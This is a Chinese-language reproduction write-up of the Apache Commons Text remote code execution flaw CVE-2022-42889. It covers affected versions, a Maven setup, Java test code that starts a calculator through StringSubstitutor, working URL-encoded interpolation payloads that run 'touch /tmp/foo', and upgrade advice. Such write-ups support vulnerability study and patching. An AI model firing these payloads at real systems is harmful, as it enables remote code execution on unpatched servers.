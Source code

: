 # Apache Commons Text 远程代码执行漏洞 CVE-2022-42889

# Apache Commons Text 远程代码执行漏洞 CVE-2022-42889

## 漏洞描述

Apache Commons Text 项目实现了一系列关于文本字符串的算法，专注于处理字符串和文本块。10月13日，Apache发布安全公告，修复了Apache Commons Text中的一个远程代码执行漏洞（CVE-2022-42889）。Apache Commons Text版本1.5到1.9中，由于不安全的插值默认值，当输入的参数不受信任时，可能导致远程代码执行。

## 漏洞影响

```
1.5.0 ≤ Apache Commons Text ＜ 1.10.0
```

## 环境搭建

IDEA 通过 Maven 导入依赖，pox.xml 如下：

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.7</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-text</artifactId>
        <version>1.9</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-lang3</artifactId>
        <version>3.12.0</version>
    </dependency>
</dependencies>
```

测试代码：

```
package org.text;

import org.apache.commons.text.StringSubstitutor;

public class Main {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        // String payload = interpolator.replace("${script:js:new
        // java.lang.ProcessBuilder(\"calc\").start()}");
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        interpolator.replace(payload);
    }
}
```

## 漏洞复现

Payload：

```
search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}

url编码
search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

可以尝试
search=${url:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
search=${dns:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

## 修复建议

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。

